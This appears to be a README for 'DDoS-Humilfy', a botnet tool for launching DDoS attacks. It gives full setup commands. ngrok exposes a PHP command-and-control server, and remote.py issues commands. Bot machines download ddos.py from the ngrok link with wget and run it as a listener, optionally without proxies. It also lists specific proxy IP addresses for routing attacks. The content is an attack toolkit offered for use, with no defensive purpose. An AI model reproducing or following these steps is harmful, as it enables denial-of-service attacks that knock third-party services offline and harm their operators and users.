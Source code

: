 # How to use

---
## Setup botnet remote (Main terminal)
``` bash
curl -sSL https://ngrok-agent.s3.amazonaws.com/ngrok.asc | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" | sudo tee /etc/apt/sources.list.d/ngrok.list && sudo apt update && sudo apt install ngrok
ngrok config add-authtoken <token>
php -S 127.0.0.1:8080 | ngrok http 8080 # In DDoS-Humilfy directory
```
---
---
```bash
# On another session in main terminal
python3 remote.py
```
- Now, once you successfully run the remote program type this:
```bash
set-kkey
```
- And for the input:
``` python
KKey-cjs: https://<ngrok link>/command.json
KKey-cph: https://<ngrok link>/command.php
KKey-aph: https://<ngrok link>/accepted.php
```
---


---
## Setup botnet receiver (In another terminal/Botnet)
- You need another terminal for your botnet.
``` bash
wget https://<ngrok link>/ddos.py
python3 ddos.py --listener # Use --no-proxy if you want to launch non-proxied DDoS attack
```
---
---
## Input
``` python
[~] Command host: https://<ngrok link>/command.json
[~] Accept host: https://<ngrok link>/accepted.php
[+] Waiting for commands..
```
---

# Also, here is your default proxy:
---
``` notepad
128.199.254.13:9090
146.190.80.158:9090
23.237.210.82:80
```
- Save it in txt file in your main terminal
---
